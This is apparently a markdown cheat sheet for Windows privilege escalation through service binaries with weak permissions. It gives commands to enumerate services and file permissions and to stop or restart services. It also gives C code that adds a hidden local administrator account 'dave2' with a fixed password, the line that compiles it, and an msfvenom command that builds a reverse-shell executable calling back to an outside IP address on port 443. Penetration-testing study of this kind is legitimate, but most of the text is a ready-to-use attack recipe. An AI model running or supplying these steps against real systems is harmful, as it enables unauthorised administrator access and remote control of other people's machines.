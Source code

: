 #priviledgeEscalation #windows 

🔴 F - full access is not mandatory M - modifieable is also works for authenticated users

🔴 Sometimes you can **mv** the binary if **rm** doesn't work

#### Enumerate services

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} | Where-Object {$_.PathName -notlike '*system32*'}
```

```powershell
Get-Service
```

#### Enumerate Permission

```powershell
Get-ACL
```

```powershell
icacls "C:\xampp\apache\bin\httpd.exe"
```

### Service Manipulation

```cmd
net stop ServiceName
```

```powershell
Restart-Service
```


#### Adding Users using a Executable

```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```


#### Reverse Shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.164 LPORT=443 -f exe -o txt.exe
```

